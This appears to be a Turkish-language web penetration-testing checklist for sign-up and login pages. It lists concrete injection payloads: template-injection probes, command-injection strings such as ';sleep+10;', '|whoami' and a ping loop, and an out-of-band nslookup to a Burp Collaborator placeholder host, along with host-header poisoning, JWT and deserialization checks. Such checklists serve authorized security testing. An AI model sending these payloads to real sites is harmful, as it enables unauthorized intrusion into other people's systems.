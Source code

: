# path
## Örnek Butonlar

## Rozet Stili Butonlar

## Yapılacaklar Listesi
### SIGN UP
- [ ] Kayit olma asamasinda SSTI dene ve mailine gelen kisimda isleme girmis mi bak <%= 7 * 7 %> %{8 * 8}
- [ ] Mail kisminda json verisi olarak mumkunse cift mail gir ikisinede gelecek mi?
- [ ] Mail kisminda ;sleep+10; denemesi yap Command injection |whoami -- ||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||
- [ ] 

### LOGIN
- [ ] Login kisminda mail icin ping denemsi : @mail ||ping+-c+10+127.0.0.1||
- [ ] Login icin mail kismina cift mail ekleme json verisi olarak
- [ ] Mailin Host kismini abc123 gonder bakalim gelen baglantida abcd123 subdomaini yer aliyor mu? olursa exploit serverini gir host olarak
- [ ] Login kismindaki session cookileri kontrol et decode edip icerigine bak ve serialize zafiyeti varmi?
- [ ] Jwt Tokenleri kontrol et ve zafiyet var mi arastir
- [ ] Login kismina XOR time based testi yap


